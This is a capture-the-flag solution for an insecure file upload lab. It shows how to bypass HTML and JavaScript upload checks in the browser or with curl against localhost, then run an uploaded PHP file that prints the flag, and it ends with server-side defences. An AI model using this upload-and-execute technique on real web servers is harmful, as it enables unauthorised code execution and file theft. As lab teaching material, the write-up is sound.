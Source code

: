 # Solution: Insecure File Upload Lab

## Option 1: Bypassing the Frontend Checks Manually

The first step is to **inspect the frontend HTML** served at `/upload`. Right-click on the page and select **“Inspect”** or press `F12` to open the Developer Tools in your browser. In the HTML code of the form, you'll notice something like this:

```html
<input type="file" name="file" required accept=".png,.jpg,.jpeg" />
```

The `accept` attribute is what limits the selectable files to only PNG and JPEG images. But **this is purely a client-side check**, meaning it's enforced by the browser interface, not the server. Client-side checks can always be bypassed.

### Step-by-Step Instructions:

1. **Remove the `accept` attribute** from the `<input>` tag using Developer Tools.
   - This will allow you to select any file type via the file picker, including `.php` files.
   - However, upon selecting a file that is not an image, you will immediately see a JavaScript **alert** warning you that "Only image files are allowed."

2. This shows that there's **additional frontend validation using JavaScript**.
   - Even though you've removed the `accept` attribute, the frontend script still enforces restrictions by monitoring the file type.

   ![alt text](js-block.png)

3. To fully bypass this, **disable JavaScript** in your browser:
   - In Chrome: Open Developer Tools, go to the Command Menu (Ctrl+Shift+P), type `Disable JavaScript`, and select the option.
   - Alternatively, you can disable JavaScript in browser settings.
   - With JavaScript disabled, there will be no alert, and you can proceed with uploading any file.

4. Now try uploading a `.php` file, for example, a simple PHP file that reads the flag:

```php
<?php
echo "FLAG: " . file_get_contents("/flag");
?>
```

5. After uploading, you should receive a message like:

```
File uploaded! Access it at /uploads/shell.php
```

6. Visit the provided URL (e.g. `/uploads/shell.php`) in your browser. You should see the contents of the `flag.txt` file.

---

This method clearly shows how **frontend protections are superficial**. HTML attributes like `accept` and even active JavaScript validations are **not security measures** — they only provide hints to the user. Any user with basic browser tools can modify or bypass these checks entirely.

**The takeaway**: Always perform file validation and filtering on the backend — it's the only place you can trust.

---

## Option 2: Using `curl -F` to Upload the PHP File

If you prefer using the command line or want to avoid dealing with the browser entirely, you can achieve the same result with `curl`.

### Step-by-Step Instructions:

1. Prepare your malicious file `shell.php`:

```php
<?php
echo "FLAG: " . file_get_contents("/flag");
?>
```

2. Use `curl` to upload it:

```bash
curl -F "file=@shell.php" http://localhost:8080/upload
```

3. You will get a response like:

```
File uploaded! Access it at /uploads/shell.php
```

4. Now visit `http://localhost:8080/uploads/shell.php` in your browser or use `curl` again:

```bash
curl http://localhost:8080/uploads/shell.php
```

You should now see the contents of `/flag.txt`.

---

## Conclusion

This challenge demonstrates how **frontend-only security is not real security**. Relying on client-side HTML attributes or JavaScript to enforce upload restrictions is easily bypassed.

To properly protect against malicious uploads:

- Always perform **server-side validation** of file types and content.
- Use **MIME-type detection** and content inspection libraries.
- Store uploaded files outside of publicly accessible directories or configure your web server to never execute them.
- If executable content must be allowed, sandbox its execution or validate it thoroughly.

Never trust the client. Always validate and sanitize inputs on the server side.
